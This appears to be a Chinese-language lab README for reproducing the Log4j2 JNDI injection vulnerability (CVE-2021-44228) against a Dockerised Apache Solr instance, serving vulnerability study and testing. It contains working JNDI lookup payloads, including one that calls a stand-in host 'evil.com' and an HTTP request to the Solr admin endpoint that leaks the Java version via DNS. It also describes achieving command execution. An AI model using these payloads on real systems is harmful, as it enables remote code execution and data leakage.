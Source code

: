 # Apache Log4j2 lookup JNDI 注入漏洞（CVE-2021-44228）

[中文版本(Chinese version)](README.zh-cn.md)

Apache Log4j 2 是Java语言的日志处理套件，使用极为广泛。在其2.0到2.14.1版本中存在一处JNDI注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于`${jndi:ldap://evil.com/example}`的lookup用于进行JNDI注入，执行任意代码。

参考链接：

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649

## 漏洞环境

Apache Log4j2 不是一个特定的Web服务，而仅仅是一个第三方库，我们可以通过找到一些使用了这个库的应用来复现这个漏洞，比如Apache Solr。

执行如下命令启动一个Apache Solr 8.11.0，其依赖了Log4j 2.14.1：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8983`即可查看到Apache Solr的后台页面。

## 漏洞复现

`${jndi:dns://${sys:java.version}.example.com}`是利用JNDI发送DNS请求的Payload，我们将其作为管理员接口的action参数值发送如下数据包：

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```

我们可以在DNS日志平台收到相关日志，显示出当前Java版本：

![](1.png)

因为目标JDK版本低于8u191，所以我们可以使用`rmi://`或`ldap://`来直接执行Java字节码。

使用[web-chains](https://github.com/java-Chains/web-chains)来生成一个恶意的JNDI URL，然后将其替换进上面的数据包中来利用漏洞：

![](2.png)

利用完毕后，可见`touch /tmp/success`已经成功被执行：

![](3.png)
